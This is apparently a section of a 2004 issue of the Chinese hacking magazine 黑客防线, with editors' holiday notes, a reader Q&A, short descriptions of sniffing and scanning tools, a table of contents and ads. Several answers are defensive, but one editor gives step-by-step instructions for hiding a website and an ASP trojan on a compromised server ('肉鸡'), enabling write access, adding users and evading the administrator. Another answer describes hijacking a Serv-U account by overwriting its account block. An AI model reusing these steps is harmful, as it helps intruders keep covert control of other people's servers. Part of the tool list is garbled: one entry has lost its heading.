在过去的 2003 年，伴随着《黑客防线》的风风雨雨，我经历了很多，成长了很多，也内敛了很多。现在的我，已经进化成一个集睿智、稳重、幽默等诸多优点于一身的成熟男人的典范……（wtf，脚本小子、socket、刘流，你们握着鸡蛋冲过来做什么啊！#!@$%^&*）

在甲申年的钟声来临之际，小编我会更好地完成自己的本职工作，逆风而上，踏歌而行，把更多的精彩内容奉献给大家！我也深深地知道，一份事业没有广大人民的心血和汗水，是无法继续和壮大的，而全国数十万读者的关注和支持，是全体编辑们创新与成长的核动力源泉！我们做得不足的地方请大家直接提出意见和建议，我们会尽快改正并努力提高！如果哪期的《黑客防线》做得出彩，请大家多捧捧场，赞扬几句将是我们最大的鼓励！我们坚信：2004，Hope is a good thing!

Socket：Wtf 说，如果我不写编读，他就“抽”我！我好怕怕！慑于他的“*”威（被过滤字符），我绞尽脑汁，希望苍天有眼，让我可以像挤一片本已全身扁平的牙膏那样，挤出一点向他交差。

我的语文水平我有自知之明，所以我并不敢像 icefire 兄弟那样，他可以在我们面前信心十足地说他高考成绩在他们学校排名第一。而我正好相反，高中时全班 88 个人，我的分数也总是在 88 分处左右摇晃，但每次误差绝不超过 1 分，偶尔一次及格，并得了我有史以来 99 分的“最高分”，但在我的极度兴奋和同桌兄弟的万分惊讶中（惊讶为什么我错得比他多，而总分却比他高），最终我们发现一个极为残酷的事实：语文老师的算术的确不是强项，他给我多加了 10 分，我哭……89 分，又没有及格！郁闷啊！

春节要到了，黑防编辑部发节日礼物了，我好兴奋，这可是我收到的第一份新年礼物，感动流泪中……但同时也在努力思考：这会不会是最后一份？（Wtf 不知道有没有一点点悟性？我想，以他的头脑，哪怕一点点也应该足够了！^_^ wtf：你小子，知道你打什么主意，期待吧！）

时间过得“贼”快，又要过年了。回想起黑防一年的进步和读者朋友们大力的支持和关怀，心情久久无法平静。虽然，我是黑编中 NC（New Comer），但几个月来在黑防编辑部这个大家庭学到好多东西，我深深感到这是一个极具活力和创造性的团体，并且大家都非常富有爱心（特别是对蝴蝶的那包鸡腿！），相信在未来的时间里，我们一定能做得更好！

最后我希望黑防的热心读者们，在新年的时候，都可以拿到自己想要的大“红包”——我小外甥会叫舅舅了，今年可以享受挥霍红包的快感了。平时在代码中待惯了，人也变得庸俗了，所以我想对所有关心和支持黑防的朋友们说“嘻嘻，猴年大吉！”。另外，猴年出生的朋友，不要忘了穿上“红**”哦（再次过滤！）

## 你问我答

近段时间网络上趣事不少，不少黑客的个人网页被黑，很多黑客团体开始活跃在网络上，比如经常发现很严重脚本漏洞的“中国网络脚本测试小组”，里面的成员都有非常扎实的脚本研究功底。我们相信，这样的团体在未来会越来越多，技术层次也将逐步提高，希望中国未来的安全事业在团体的推动下进一步发展。那时候，大家都是元老咯！努力 ing！

**论坛 小刘：** 我的电脑已经打了 SP4，可我用别的电脑用 X_SCAN 2.3 扫了一下，还是发现了 DCOMRPC 漏洞，是什么原因？我以为是我 SP4 安装有问题，就又上了微软的 Windows Update 重新检查了一次，提示说已经打了所有补丁。于是我又认为是 X_SCAN 的错误，可我在 CMD 下，用 RPC 工具可以成功溢出。请问这到底是什么原因啊？

**脚本小子：** 请先确定你打了 SP4 后是否重新启动，启动过后才有效果。DCOM RPC 是最近出现的漏洞，在 SP4 之后，打了 SP4 也没用，需要打 HOTFIX。

- 1. 安装微软系统补丁：2003 年 7 月微软发布了 DCOMRPC 漏洞补丁：http://microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=C8B8A846-F541-4C15-8C9F-220354449117
- 2. 处理：关闭 TCP 端口 135、关闭 TCP 端口 4444，以及关闭 UDP 端口 69，可以使用防火墙实现，也可以使用 Windows 自带的 IP 策略。

**论坛 jkld：** 我的服务器前几天被入侵了，系统打好了所有补丁，而且经常 Update，但还是被入侵。后来检查系统，发现入侵者是通过 MS SQL 入侵的，我也查了资料，我的 SQL 密码比较强壮，估计是被暴力破解了，现在我想问问黑防的 wtf：如何能阻断由 SQL 而入侵到系统的情况？

**Wtf：** 为什么偏偏点名叫我啊，脚本小子为这事还跟我郁闷了几天呢！大家以后有问题千万去找相关的编辑，不然他们全部骂我（不能为读者服务，他们当然很痛苦啦）！

一般比较好的方法是去掉 MS SQL 的 xp_cmdshell 扩展存储过程，这样就算是别人得到了你的 sa 密码也不能执行 NET 命令，下面的语句可以提供参考：

```sql
if exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_cmdshell]') and OBJECTPROPERTY(id, N'IsExtendedProc')=1)
exec sp_dropextendedproc N'[dbo].[xp_cmdshell]'
```

供参考：

执行以后，用 SqlExec.exe 连接上，如果执行命令后返回结果 SQL_ERROR，就表示不能执行命令了，这样可以比较好地防护 SQL 本身的安全。

不过既然可以删除，当然可以恢复，如果你的 sa 密码太简单（SQL 7.0 通常是空密码，SQL2000 是弱智密码），那你的爱机变肉鸡的日子，也为期不远了！记得下次一定问脚本小子啊！不然他又瞪着我啦！

**论坛 蝴蝶飞：** 最近我收到一个邮件说 QQ 公司的数据库坏了，让我重新填写信息，我就填写了，但是没多久我的 QQ 就被盗了！蝴蝶姐姐救救我啊！

**蝴蝶：** 如果不想把自己的 QQ 密码当作新年礼物送人就要小心了！当你收到下面内容的 mail，请直接 delete，不必理会！

- 日期：2002 年 1 月 23 日 16:23:04
- 优先级：普通邮件
- 发件人：腾讯 QQ 客户服务
- 发件人地址：service@tencent.com
- 收件人地址：******@******.com
- 主题：你好

> 您好！由于系统的搬迁导致部分数据的损坏，在此我们深表歉意。为了您 QQ 的安全请重新填写您的密码保护信息：http://service.tencent.com/reg/register.shtml。一旦你点击以上这个腾讯网站的链接后，会跳转到 http://520china.com/qq/reg.htm 这个页面。为了盗取密码，这个页面做得和腾讯网站的 OICQ 密码保护页面一模一样，请大家千万小心受骗！

**论坛 小黑：** 我们学校老师经常看《黑客防线》，系上也专门开了这个选修课程，同学们都非常喜欢这个，但是学校教的东西不太管用，工具什么的也是用得很老的，我想问问仰慕中的黑防编辑们，如何能在肉鸡上建立自己的个人主页而不被发现呢？或者是放个后门？

**脚本小子：** 首先发表个人看法：不同意在肉鸡上建立自己的主页，那是很危险的做法，没有任何实际意义，只是好玩，只要管理员查看一下 IIS 管理器，就会发现我们的主页，这样不但主页暴露了，还会被管理员把我们给踢出去。需要谨慎选择！下面的方法能比较好地建立一个隐藏虚拟主页，而且不容易被发现。

首先打开肉机 IIS 管理器，选定一个文件夹，然后点击右键，选择“资源管理器”，到网站的根目录下新建一个文件夹 hacker，然后到 system32 上新建一个文件夹，我这里取名为 hackerweb（这个文件夹尽量隐藏得目录深一些，才不会被管理员发现），回到 IIS 管理器按 F5 刷新就会看到 hacker 这个目录，选中它后，点击右键，选择“新建→虚拟目录”，给这个虚拟目录取名 hackweb，然后把这个虚拟目录指向 hackerweb，建立完成后，现在放个首页进去，通过正常路径就能访问了！

如果要放入 ASP 木马，需要把肉鸡 IIS 的“应用程序保护”级别改为“低”，再在“写入”前面打上钩，在浏览器中输入 ASP 木马路径，输入密码以后进入管理页面，运行 CMD 命令还可以加用户之类的，这样做就要把 ASP 文件放到 system32/home 目录下，比如你 ASP 木马是 hack.asp，那么就放到 system32/myhome 目录，浏览相关路径就可以看到木马了。

上面是建立的方法，下面是隐藏防范：打开“我的电脑”，找到网站的根目录，删掉 hacker 这个文件夹，再打开浏览器输入刚才的网址，同样可以看到页面，一个隐藏的个人主页就这样建立完成了，当然，木马也在里面。

最近网络上针对 Serv-U FTP 的攻击非常多，我们最近两期的文章也涉及到了这些方面。

**论坛上 allen1981 问：** “ServUDaemon.ini 的用户密码是用什么方式加密的？现在有没有解密的方法？”

**wtf：** 4.x 的 Serv-U 中，ServUDaemon.ini 的账户是明文存储的，密码是通过特定的方法加密，现在还没有解密的方法，如果你有访问和修改的权限，可以自己在本地建立 Serv-U 服务器，然后设置一个密码，将账户信息段覆盖被解目标就可以了！这也算一种变相的破解方法吧！

## 截稿号外

新年到了，编辑部里的喜事也是一桩接一桩，前段时间刚收到《黑客防线》成功打入香港市场的消息，大家激动了好些天，在论坛上发布这个消息后，所有支持我们的读者都非常兴奋，能看到以黑防为核心的团体逐渐壮大是大家共同的心愿！兴奋余潮未退，又从邮购部传来了中美洲大量邮购《黑客防线》的消息，全体编辑激动无比！这是我们工作的最好见证和证明！谢谢大家对我们的衷心支持，希望在新的一年里，黑防能走向世界，威震全球！（下文为意译）

**《黑客防线》邮购部：**

大家好！我是住在中美洲的网络安全爱好者。

（Safe fancier of network），偶然一次在中国朋友的家里发现了贵刊，由于语言上的障碍，中国朋友一直给我翻译了整天我才明白大概的意思，也就是从那时候开始，我开始向往中国的网络安全事业，也从那时候开始萌发学习中文的想法！

由于不清楚贵刊详细书籍的发售情况，今天汇来 150 美元，欲订购 2004 年全年的《黑客防线》，并购买《黑客编程 Follow Me》一本，如果钱有剩余，请再订购一套 2004 年《黑客防线》全年杂志，我将作为贵重礼品赠送给公司同事！谢谢！

best wish for you!

allen

简介：一个简单而有用的工具，透过使用 TCP 或 UDP 协议的网络连接去读写数据。它被设计成一个稳定的后门工具，能够直接由其它程序和脚本轻松驱动。同时，它也是一个功能强大的网络调试和探测工具，能够建立你需要的几乎所有类型的网络连接，还有几个很有意思的内置功能。

### 工具：TCPDump/WinDump（用于网络监测和数据收集的优秀嗅探器）

网址：http://www.tcpdump.org/，http://windump.polito.it/

类别：开放源码

平台：Linux/BSD/Unix/Windows

简介：Tcpdump 是一款众人皆知和受人喜欢的基于命令行的网络数据包分析和嗅探工具。它能把匹配规则的数据包的包头显示出来。你能使用这个工具去查找网络问题或者去监视网络上的状况。WinDump 是 Tcpdump 在 Windows 平台上的移植版。





### 工具：DSniff（一流的网络审计和渗透测试工具）

网址：http://naughty.monkey.org/~dugsong/dsniff/

类别：开放源码

平台：Linux/BSD/Unix/Windows

简介：DSniff 是由 Dug Song 开发的一套包含多个工具的软件套件。其中，dsniff、filesnarf、mailsnarf、msgsnarf、urlsnarf 和 webspy 可以用于监视网络上我们感兴趣的数据（如口令、E-mail、文件等），arpspoof、dnsspoof 和 macof 能很容易地截取到攻击者通常难以获取的网络信息（如二层交换数据），sshmitm 和 webmitm 则能用于实现重写 SSH 和 HTTPS 会话，达到 monkey-in-the-middle 攻击。在 http://www.datanerds.net/~mike/dsniff.html 可以找到 Windows 平台上的移植版。



### 工具：GFI LANguard（商业化的网络安全扫描软件）

网址：http://www.gfi.com/lannetscan/

类别：商业

平台：Windows

简介：LANguard 扫描网络并且得出诸如每台机器的服务包等级、缺少的安全补丁、打开的共享、开放的端口、正在运行的服务和应用程序、注册表键值、弱口令、用户和组等扫描信息的报告。扫描结果输出为一个 HTML 格式的报告，报告能够自定义。


### 工具：Ettercap（为你的交换环境提供更多的安全）

网址：http://ettercap.sourceforge.net/

类别：开放源码

平台：Linux/BSD/Unix/Windows

简介：Ettercap 是一款以太网环境下的网络监视、拦截和记录工具，支持多种主动或被动的协议分析（甚至跟加密相关的 SSH、HTTPS 等），有数据插入、过滤、保持连接同步等多种功能，也有一个能支持多种嗅探模式的、强大而完整的嗅探套件，支持插件，能够检查网络环境是否是交换局域网，并且能使用主动或被动的操作系统指纹识别技术让你了解当前局域网的情况。





## ——针对最新入侵与攻击的防范研究

- 总编辑：孙彬
- 执行主编：郭聪辉
- 编辑部主任：吴田锋
- 编辑：刘流、蝴蝶、脚本小子、Socket、彭国军、刘志勇、谭磊
- 采编部主任：郭嘉
- 美编部：王凤
- 技术部：徐生震
- 发行部：孙雁秋
- 邮购部：郭丽敏

- 光盘刊号：CN15-9201/TP
- 编辑：黑客防线编辑部
- 出版：家庭电脑世界杂志社
- 制作公司：北京地海森波网络技术公司
- 通信地址：北京中关村邮局 008 信箱
- 邮政编码：100080
- 协办单位：北京寰海科技开发中心

- 技术支持电话：62141445-8004
- 投稿 E-mail：hacker@hacker.com.cn
- 问题解答 E-mail：answer@hacker.com.cn
- 网址：http://www.hacker.com.cn
- 发行部电话：62141446
- 发行部传真：62141360
- 邮购部电话：62141445-8011

- 常年法律顾问：北京风清律师事务所
- 王碧清 律师
- 电话：13701229137
- 传真：(010)84510532
- E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00 元人民币（光盘 + 说明书）

## 卷首语

## 业界动态

- ◇新闻动态

## 名家专访

- 将安全融入程序的核心——程序员风清扬采访记 ................................ 4

## 专题企划

### Windows 2000 系统加固不求人 ................................ 6

据国内一些网络安全研究机构的资料，国内大部分的 ISP、ICP、IT 公司、政府、教育和科研机构等都没有对网络安全投入必要的人力和物力；很多重要站点的管理员都是 Internet 的新手，一些操作系统在那些有经验的系统管理员的配置下尚且有缺憾，在这些新手的操作中更是漏洞百出。很多服务器至少有三种以上的漏洞可以使入侵者获取系统的最高控制权。在众多的网络入侵事件中，很大一部分原因是管理员本身没有做好服务器安全的合理配置。本专题从 Windows 2000 实战角度出发，特约安全公司技术人员为你具体详细讲解安全系统的加固过程，相信这无论是对个人用户还是对于国内大多数管理员来说，都是非常有意义的。

## 漏洞攻击防范

- JMAIL 漏洞防御 ................................ 20
- Imail 漏洞防御之我见 ................................ 22

## 脚本攻击防范

### ACCESS 数据库安全攻防 ................................ 23

作为一个 Asp 程序员，也许当初没有想到现在的“web+数据库”的方式会这样尴尬，面对已经泛滥的 mdb 数据库被下载问题，大多数的程序员只能是束手无措，可以说如何防止 mdb 数据库被下载已经成了当前 asp 和数据库运用中的一大“头疼”，但既然是“病”，就应该有“药”来治，那“药方”是什么呢？

- 基于 ASP.NET 与 ACCESS 的安全防护 …… 26

## 黑器攻击防范

- IIS Lockdown+URLScan=保障 IIS 安全 …… 31
- 让“黑客守卫者”远离我们！ …… 36
- 防护 Serv-U 配置漏洞跟我走 …… 38

## CVC 病毒专栏

- 一种新的邮件病毒传播思想剖析 …… 40

## 网管之家

- 打造“黑匣子”——Linux 系统日志保护 …… 44
- 在 Linux 上实现包过滤防火墙 …… 46
- 让你的 Windows 2003 IAS 服务动起来 …… 50
- IIS5.0 到 IIS6.0 这惊人的一跳 …… 53

说起当今被应用的 Web 服务器，许多人自然会想到 Microsoft 公司的 IIS 了，但是 NT 时代的 IIS 4，它的功能实在太弱了，而 Windows 2000 时代的 IIS 5，在应用性、安全性、实用性上比前辈 IIS 4 有了显著的增强，但是 IIS 5 仍然和 IIS 4 一样，仍然是 Windows 系统漏洞大户，许多看起来似乎“固若金汤”的服务器系统，往往最后都是由 IIS 导致城门失守。大家一定对红码、蓝码等病毒及 IIS 巨多的漏洞还有所印象吧？现在 IIS 6 已经随着 Windows 2003 的诞生降临到世界上了，那么我们来看看 IIS 6 和它的前辈相比有什么质的飞跃——

## 安全方案

- 构建基于 SSH 验证的 cvs 服务器 …… 56
- 校园网中 802.1x 认证机制的建立 …… 59
- 绝对不做亡羊补牢人——谈防火墙的配置与选购 …… 61

## 编读互动



定价：35 元

## 内容提要：

《黑客防线 2004 精华奉献本》是在《黑客防线》杂志攻、防两册明确定位后推出的第一个精华本，汇总了从《黑客防线》总第 25 期到总第 36 期的精华内容，并且增加新的专题内容融合而成。全书按照攻防关系分为攻册和防册 2 本，内容通俗易懂，图文并茂，非常便于读者阅读。在栏目划分上，选取了《黑客防线》最受读者欢迎的 15 个栏目，特别是漏洞攻击、脚本攻击、黑兵器库和漏洞攻击防范、脚本攻击防范、黑器攻击防范 6 个栏目一一呼应，攻防分明，非常适合读者学习和研究。

本书附赠 2 张光盘。光盘内容包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文献、最新补丁，以及 150 个全程攻防录像演示。本书适合网络管理人员、网络爱好者和网络安全技术人员阅读。

## 邮购信息

| 名称 | 规格 | 价格 |
|---|---|---|
| 黑客防线 11—39 期 | 1CD | 10.00 元/期 |
| 黑客防线精华本 2001 | 2CD | 29.00 元/本 |
| 中国黑客内幕（6 折） | 1CD | 15.00 元/本 |
| 黑客防线增刊 2002 | 1CD | 19.80 元/本 |
| 黑客攻防 One To One | 1CD | 19.80 元/本 |
| 黑客编程 Follow Me | 1CD | 23.80 元/本 |
| 黑客攻击技术揭密 | 1CD | 23.80 元/本 |

《黑客防线》创刊号到《黑客防线》10 期以前的杂志邮购请到我们网站：http://www.hacker.com.cn/book.htm 查询库存数量。

汇款地址：北京市中关村邮局 008 信箱  
邮政编码：100080　收款人：《黑客防线》邮购部  
热线电话：(010)62141446　62141445-8011  
E-mail：yougoubu@hacker.com.cn

## 黑客防线专辑系列 CD + 书 19.8 元

### 《BIOS 应用百问百答》

### 《黑客对站实例与技术分析》

### 上方热卖中



## 170 个问答实例带你轻松玩转各类 BIOS

本书具有信息量大、操作性强的优点，并根据目前最新内容进行了全面更新。生动详实的问答实例全面介绍了 BIOS 与 CMOS 的设置方法与使用技巧。全书由 BIOS 与 CMOS 基本功能、BIOS 设置详解、BIOS 刷新、BIOS 个性化设置、BIOS 维修，以及显卡 BIOS（显示卡、光驱等）等内容组成。

本书通过对 BIOS 相关硬件知识、CMOS 的概念、BIOS 的设置方法以及升级等内容的讲解，可使读者对 BIOS 和 CMOS 有一个全面、深入的理解。170 个有关 BIOS 的实例解答涉及了与 BIOS 相关的 7 个方面的内容，对读者的实践能起到很好的指导意义，大大增强了实践技巧。

- 本书适合各类计算机用户，是计算机使用者日常维护计算机必备的工具书。
- 第一章 BIOS 基础
- 第二章 BIOS 设置
- 第三章 BIOS 刷新
- 第四章 BIOS 个性化设置
- 第五章 BIOS 维修

## 黑客对站实例与技术分析

